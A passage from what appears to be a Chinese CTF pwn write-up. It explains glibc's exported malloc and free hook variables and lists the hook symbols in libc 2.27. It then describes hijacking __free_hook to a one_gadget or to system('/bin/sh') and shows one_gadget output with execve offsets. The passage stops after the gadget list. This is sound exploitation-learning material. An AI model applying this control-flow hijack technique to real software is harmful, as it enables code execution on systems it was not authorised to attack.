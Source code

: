 这是用来方便用户自定义自己的malloc和free函数，用法参考：[malloc hook初探](https://www.jianshu.com/p/0d7aa3166eec)：

```c
void (*__malloc_initialize_hook) (void) = my_init_hook;
__malloc_hook = my_malloc_hook;
__free_hook = my_free_hook;
```

直接利用这种赋值语句，就可以直接给libc中的对应变量赋值，因为这几个符号都是libc所导出的。看到这我突然明白一点，使用动态库的方式不仅仅是可以调用函数，还可以直接对其中暴露出来的变量进行赋值。即动态库除了给我们暴露出函数接口以外还可以暴露出变量接口。当然我认为这个用途一般并不是让用户自己去重写malloc和free，而是让用户能在malloc和free前自动的做一些事情，以便于进行一些测试什么的。那还有没有其他的hook函数呢？

```bash
➜  strings libc2.27.so | grep hook
__malloc_initialize_hook
_dl_open_hook
argp_program_version_hook
__after_morecore_hook
__memalign_hook
__malloc_hook
__free_hook
_dl_open_hook2
__realloc_hook
```

这些可能都是未来的利用目标呀！

#### 利用__free_hook

本题我们利用__free_hook来完成控制流劫持，因为我们可以执行free函数，即可以触发到相应的函数指针，并且方便控制参数：

```c
if ( v4 <= 7 )
{
  free(ptr);
  ++v4;
}
```

ptr参数可以通过malloc直接控制，所以接下来有两种方法：

1. 直接劫持__free_hook到one_gadget
2. 劫持__free_hook到system函数，并再次malloc控制ptr指向`/bin/sh`等字符串

找到以下one_gadget地址，测试第二个可用：

```bash
➜  one_gadget libc2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
